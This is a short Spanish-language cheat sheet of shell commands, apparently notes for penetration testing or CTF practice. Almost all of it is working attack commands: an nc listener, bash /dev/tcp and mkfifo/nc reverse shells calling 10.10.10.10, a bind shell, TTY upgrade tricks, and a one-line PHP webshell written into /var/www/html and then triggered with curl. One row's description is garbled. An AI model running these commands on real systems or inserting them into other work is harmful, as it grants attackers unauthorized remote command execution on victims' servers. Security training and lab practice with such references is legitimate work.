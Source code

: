 --------------------------------------------------------------------------
#shell #revshell 

---------

|                                                                                    |                                                                    |
| ---------------------------------------------------------------------------------- | ------------------------------------------------------------------ |
| **Uso de shells**                                                                  |                                                                    |
| `nc -lvnp 1234`                                                                    | Iniciar un agente de escucha en un puerto local`nc`                |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`                              | Enviar un shell inverso desde el servidor remoto                   |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f` | Otro comando para enviar un shell inverso desde el servidor remoto |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f`      | Iniciar un shell de enlace en el servidor remoto                   |
| `nc 10.10.10.1 1234`                                                               | Conexión a un shell de enlace iniciado en el servidor remoto       |
| `python -c 'import pty; pty.spawn("/bin/bash")'`                                   | Shell de actualización TTY (1)                                     |
| `ctrl+z` luego luego luego dos veces`stty raw -echo``fg``enter`                    | Shell de actualización TTY (2)                                     |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`                  | Crear un archivo php de webshell                                   |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id`                                      | Ejecutar un comando en un webshell cargado                         |
